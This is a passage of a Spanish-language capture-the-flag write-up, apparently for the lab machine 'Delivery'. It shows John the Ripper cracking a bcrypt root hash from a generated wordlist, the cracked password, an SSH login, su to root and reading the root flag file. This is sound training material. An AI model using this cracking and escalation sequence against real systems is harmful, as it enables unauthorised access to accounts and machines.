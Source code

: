 ```bash
PcSu
PleasS
PeSubs
```
Son bastantes variaciones, muy bien.

Por último, usemos la herramienta **John** para crackear al fin el hash del **Root**:
```bash
john -w=diccionario.txt hash                                                     
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
PleaseSubscribe!21 (?)     
1g 0:00:00:07 DONE (2023-05-05 14:22) 0.1324g/s 2.781p/s 2.781c/s 2.781C/s PleaseSubscribe!12..PleaseSubscribe!21
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Listo, ahora autentiquemonos como el usuario Root en el **servicio SSH**:
```bash
ssh maildeliverer@10.10.10.222
maildeliverer@10.10.10.222's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri May  5 15:51:38 2023 from 10.10.14.16
maildeliverer@Delivery:~$ su
Password: 
root@Delivery:/home/maildeliverer# whoami
root
```

Por último, buscamos la flag:
```
root@Delivery:/home/maildeliverer# cd /root
root@Delivery:~# ls
mail.sh  note.txt  py-smtp.py  root.txt
root@Delivery:~# cat root.txt
...
```

Ya con esto, completamos la máquina. Pero ojito porque hay una nota, veámosla:
```bash
root@Delivery:~# cat note.txt 
I hope you enjoyed this box, the attack may seem silly but it demonstrates a pretty high risk vulnerability I've seen several times.  The inspiration for the box is here: 

- https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c 

Keep on hacking! And please don't forget to subscribe to all the security streamers out there.

- ippsec
```
Suscribete a su canal, gran maestro **Ippsec**.
